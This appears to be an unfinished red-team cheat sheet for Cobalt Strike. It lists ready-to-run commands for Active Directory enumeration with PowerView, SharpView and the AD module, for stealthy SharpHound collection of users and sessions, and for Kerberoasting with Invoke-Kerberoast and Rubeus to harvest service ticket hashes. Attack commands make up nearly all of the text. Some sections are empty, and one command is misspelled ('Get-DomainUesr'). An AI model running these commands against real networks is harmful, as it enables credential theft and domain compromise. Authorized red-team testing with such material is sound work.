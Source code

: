 # NOTE: WORK IN PROGRESS

# Cobalt Strike & Red Team Cheat Sheet
---
## Enumeration

### Running PowerView and SharpView
```
PowerView:
# powershell-import --> Select PowerView.ps1 to import PS1 file in memory
# powershell Get-Module PowerView
# powershell Get-NetUser -Identity testuser -Domain test.lab.com

SharpView
# execute-assembly C:\SharpView.exe Invoke-CheckLocalAdminAccess --> Check servers for local admin using current privileges
```

### Running ActiveDirectory module
```
# powershell import --> Select \ADModule\Microsoft.ActiveDirectory.Management.dll  file from https://github.com/samratashok/ADModule
# powershell Get-ADDomainController -Domain test.lab.com
```

### Running Sharphound (.NET version of Bloodhound) for AD domain collection
```
Running SharpView in memory (.NET version of PowerView)
# execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain test.lab.com --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\

Collecting only user sessions to determine who is logged in and where:
# execute-assembly C:\SharpHound.exe --CollectionMethod Session,LoggedOn --Outputdirectory C:\temp\

Collection methods reference: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html
```
---
## Lateral Movement

---
## Exfiltration

### Kerberoasting
```
PowerView kerberoasting:
# powershell Get-DomainUesr -SPN --> Get users with SPN set
# powershell Invoke-Kerberoast -Identity testaccount -Domain test.lab.com | fl

Requests service tickets for all kerberoast-able accounts and return ticket hashe
# powershell Invoke-Kerberoast | fl

Rubeus kerberoasting:
# execute-assembly C:\Rubeus.exe /outfile:KerbHashes.txt /user:testaccount /domain:test.lab.com
```

---
## 

---
# References
Cobalt Strike commands cheat-sheet: https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet
Sharphound: https://github.com/BloodHoundAD/SharpHound3
